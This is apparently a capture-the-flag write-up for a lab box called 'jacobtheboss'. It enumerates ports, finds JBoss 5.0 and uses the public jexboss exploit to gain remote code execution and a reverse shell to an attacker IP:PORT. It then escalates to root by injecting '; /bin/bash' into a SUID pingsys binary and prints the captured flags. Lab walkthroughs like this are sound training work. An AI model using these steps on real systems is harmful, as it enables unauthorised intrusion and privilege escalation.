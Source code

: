 ```yaml
---
sticker: emoji//1f574-fe0f
---
```

# ENUMERATION
---



## OPEN PORTS
---

| PORT      | SERVICE                   |
| --------- | ------------------------- |
| 22/tcp    | SSH (OpenSSH 7.4)         |
| 80/tcp    | HTTP (Apache 2.4.6)       |
| 111/tcp   | RPCbind                   |
| 1098/tcp  | Java RMI                  |
| 1099/tcp  | Java Object Serialization |
| 3306/tcp  | MySQL/MariaDB             |
| 8008/tcp  | HTTP                      |
| 8083/tcp  | JBoss HTTP                |
| 40296/tcp | Unknown                   |
| 40982/tcp | Java RMI                  |
| 52306/tcp | Unknown                   |

We need to add `jacobtheboss.box` to `/etc/hosts`:

```
echo 'IP jacobtheboss.box' | sudo tee -a /etc/hosts
```


# RECONNAISSANCE
---


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408162521.png)

Web application located at port 80 contains an admin login page and some other functionalities, I tried `XSS` on the search bar but it didn't work, I also tried `LFI` but same happened, seems like this is not the intended path to take, now, if we remember correctly, we got another website located at port 8080:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408162626.png)

We got something called `Jboss`, if we check the version:

```
whatweb http://jacobtheboss.box:8080

http://jacobtheboss.box:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTTPServer[Apache-Coyote/1.1], IP[10.10.230.73], JBoss[5.0][JBossWeb-2.1], Title[Welcome to JBoss&trade;], X-Powered-By[Servlet 2.5; JBoss-5.0/JBossWeb-2.1]
```

We are dealing with `JBoss 5.0`, if we search for an exploit, we can find this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408162907.png)

We got `RCE`, let's proceed to exploitation phase.



# EXPLOITATION
---

Due to us knowing that we got RCE, we can download the exploit and test:

```
Github: https://github.com/joaomatosf/jexboss.git
```

After downloading the script, we can use it with:

```
python jexboss.py -host http://jacobtheboss.box:8080
```


We can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408163415.png)

There we go, we got the shell, as it says in the script, to get a reverse shell, we can simply type the following:

```
jexremote=IP:PORT
```

If we check our listener:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408163529.png)

We got the connection, let's start the privilege escalation phase.


# PRIVILEGE ESCALATION
---

First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408163630.png)

We can read user flag now:

```
[jacob@jacobtheboss /]$ cat /home/jacob/user.txt
f4d491f280de360cc49e26ca1587cbcc
```

If we check for SUID 4000 binaries, we find this:

```
[jacob@jacobtheboss /]$ find / -perm -4000 2>/dev/null
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

We got a few that may be interesting but after testing all of them, the only one that I could find some info was `pingsys`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408164534.png)

Which means that in order to get root, we can do the following:

```
/usr/bin/pingsys '127.0.0.1; /bin/bash'
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408164651.png)

There we go, we got the root shell and can finally read `root.txt`:

```
[root@jacobtheboss /]# cat /root/root.txt
29a5641eaa0c01abe5749608c8232806
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408164733.png)

